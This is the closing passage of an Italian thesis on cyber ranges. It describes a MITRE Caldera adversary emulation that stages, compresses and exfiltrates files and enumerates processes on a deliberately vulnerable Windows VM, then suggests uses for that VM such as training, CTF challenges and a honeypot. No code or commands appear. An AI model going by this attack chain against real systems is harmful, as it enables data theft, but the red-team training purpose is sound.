    Per riassumere concettualmente l'operazione da svolgere: un avversario, con privilegi elevati all'interno del server, tenta di raccogliere tutti i file presenti ed enumerare i processi avviati e in esecuzione. Successivamente, dopo aver creato una staging directory in cui collezionare i file individuati, si usano un paio di tecniche per estrarre i dati raccolti all'interno della cartella \texttt{caldera/data/results/}; mentre i processi sono visualizzabili negli output scritti nel resoconto. L'operazione è possibile grazie ai privilegi ottenuti; senza di questi sarebbe stato necessario ottenerli attraverso altre \textit{abilities} di \textsc{privilege escalation}. Di seguito, si elencano la serie di eventi susseguitasi durante l'operazione:
    \begin{enumerate}
        \item \textsc{"Create staging directory"}: Crea la cartella che contiene i futuri file individuati dalle altre \textit{abilities}. Viene eseguita per prima siccome la sua esistenza rappresenta un \textins{fact} per molti altri eventi. In seguito, la directory creata verrà eliminata grazie all'opzione "clean up" dell'\textit{ability}, in modo da non lasciare tracce.
        \item \textsc{"Find Files"}: Cerca nel filesystem dei file che corrispondano, nel nome o percorso, ad un parametro scritto nel comando (modificabile). Di solito, salva solo dei candidati.
        \item \textsc{Advanced File Search and Stager}: Rappresenta una versione combinata dei primi due eventi grazie a un payload rilasciato nell'host contenente gli argomenti per lo svolgimento delle azioni. È stato selezionato in modo da coprire eventuali falli nell'esecuzione delle prime \textit{abilities}.
        \item \textsc{"Stage sensitive files"}: Prende i file trovati corrispondenti e li copia/sposta all'interno della directory creata \textit{staged}. Nel nostro profilo, viene eseguita due volte di seguito in modo da considerare i file presi sia dal secondo scanning sia dal terzo.
        \item \textsc{"WMIC Process Enumeration"}: Cattura ID, percorso e parent ID di tutti i processi all'interno della macchina. L'output è visualizzabile nella schermata \textit{Operations} attiva.
        \item \textsc{"SysInternals PSTool Process Discovery"}: Enumerazione dei processi attivi attraverso strumenti SysInternals pstool. Analogamente a prima, il motivo dietro la doppia esecuzione di \textit{abilities} simili risiede nel voler confrontare i due output in modo da scoprire eventuali discordanze.
        \item \textsc{"Compress staged directory"}: Crea un archivio (zip o simile) con i contenuti della staged directory. In questo modo, l'esfiltrazione dei file si racchiude all'interno di un unico artefatto.
        \item \textsc{"Exfil staged directory"}: Il passo finale invia l'archivio creato indietro verso il server Caldera attraverso il canale C2 creato con l'agente.
    \end{enumerate}
    Nel processo di svolgimento, nessuna \textit{ability} ha riscontrato difficoltà nell'eseguire il proprio compito e raccogliere il proprio obiettivo. Questo grazie al fatto di star avviando gli eventi con diritti di amministratore e senza la presenza del firewall, spento in precedenza (v. \ref{firewall})
    Sulla base delle informazionni raccolte, un ipotetico utente malevolo avrebbe il potere di rovinare l'azienda: andando a vendere i dati sensibili, arrestando dei processi importanti o lo stesso server e, persino, allargare la sua rete di zombie bot attraverso tecniche di \textsc{lateral movement}. Come la maggior parte delle configurazioni, l'ampliamento ed il tecnicismo di "Internal Thief (Windows)" può essere cambiato da altri possibili utenti o dal Red Team.
    
\chapter{Conclusioni}
Questo lavoro mi ha permesso di toccare con mano quali sono i rischi e le vulnerabilità ancora persistenti all'interno delle aziende, nonostante il grande aiuto fornito dall'IA nella generazione automatica di patch e rilevamento repentino delle minacce. Di vitale importanza per preservare i propri sistemi, in parallelo con la sensibilizzazione dell'utente sui possibili rischi, rimane fondamentale la preparazione dei team in incident response contro attacchi in corso o futuri ed il costante aggiornamento dell'infrastruttura.\\
Il framework Caldera\textsuperscript{TM}, grazie al suo costante sviluppo e aggiornamento da parte di MITRE, rimarrà uno strumento importante da utilizzare nel mercato dei cyber range anche nel prossimo decennio, permettendo ai componenti del Red Team di riuscire ad organizzare al meglio il lavoro, familiarizzandosi anche con la maggior parte dei threat reali, e di spostare la loro attenzione sull'ampliamento delle proprie conoscenze in modo da poter sostenere minacce che evolvono negli anni. È bene sottolineare che un insieme di tools come Caldera, ad esempio Mordor o Atomic Red Team, non riuscirà in nessun caso a sostituire completamente una squadra rossa con un bagaglio notevole di esperienza, questo poiché tale squadra sarà in grado di sfruttare vulnerabilità non ancora documentate in ATT\&CK. Un'intersezione nel ruolo da parte di entrambi, l'abbiamo nella fase di progettazione del cyber range: il Red Team evidenzia le aree di testing mirate a rappresentare una debolezza nella difesa della compagnia, mentre i framework possono essere configurati al fine di elevare il grado di autenticità con un attacco reale.\\[2em]
{\bfseries\Large{Possibili usi della VM}}\\[1.5em]
Una volta pubblicata, la VM Windows vulnerabile ha la possibilità di essere utilizzata in vari contesti e riconfigurata a seconda delle proprie esigenze:
\begin{description}
    \item[Host in un cyber range] $\rightarrow$ L'uso basico che si può fare della macchina, è lo stesso esplicitato in questa relazione. L'azienda che usufruisce della VM può riconfigurarla in modo da inserirla all'interno della propria rete ed includerla in qualche futuro cyber range in sviluppo. Ovviamente, è anche possibile migliorare o ampliare l'applicazione web installata in modo da renderla più realistica, aggiungendo magari dei servizi che la stessa enterprise offre ai clienti.
    \item[Challenge CTF] $\rightarrow$ Mi è stata data l'idea sulla creazione di una possibile sfida stile "Capture The Flag", in modo da rendere l'apprendimento di nozioni o il test delle proprie capacità ancora più interessanti. Può rappresentare una sfida personale, ma anche una possibile esercitazione da proporre ai propri dipendenti in modo da elevare l'attenzione verso i "rischi del mestiere". Molti sono i siti famosi in cui sono presenti queste challenge come HackTheBox o TryHackMe.
    \item[Honeypot] $\rightarrow$ Una debolezza come quella presentata all'interno dell'applicazione web diventa un'esca molto allettante per attirare dei possibili attaccanti ostili. L'uso di honeypots è molto diffuso soprattutto in grandi imprese e la suddetta macchina potrebbe entrare a far parte di questa feature, il tutto sempre configurandola secondo la policy dell'azienda cliente.
    \item[Test personali] $\rightarrow$ In base alla mia esperienza personale, ma soprattutto alle possibilità di ogni individuo, la continua esercitazione e il cimento nelle operazioni di cybersecurity è fondamentale al fine di acquisire dimestichezza con i tool più utilizzati. Ma ancora più importante, è riuscire a sviluppare dei progetti personali in questo campo che forniranno un grande trampolino di lancio verso lo sviluppo della propria carriera. Un uso consigliato dell'host è, quindi, quello di macchina per testare i software personali sviluppati o provare tecniche e tool appresi in un particolare corso.
    \item[Target esercitazioni con Caldera] $\rightarrow$ Lavorando con il framework, ho potuto esplorare diverse emulazioni di avversari contro un sistema vulnerabile; il numero delle configurazioni possibili con cui avviare un'operazione è notevolmente elevato. Non riuscendo a racchiuderle tutte in un unico documento, ritengo necessario offrire la VM Windows come strumento di "gioco" ed esercitazione con i plugins attualmente disponibili in Caldera; a questo scopo, si include un invito ad ampliare la propria infrastruttura di rete simulata, in modo da riuscire a usare le varie tecniche di \textit{lateral movement} non incluse durante le esercitazioni. 
    
\end{description}

\backmatter
\printbibliography

\end{document}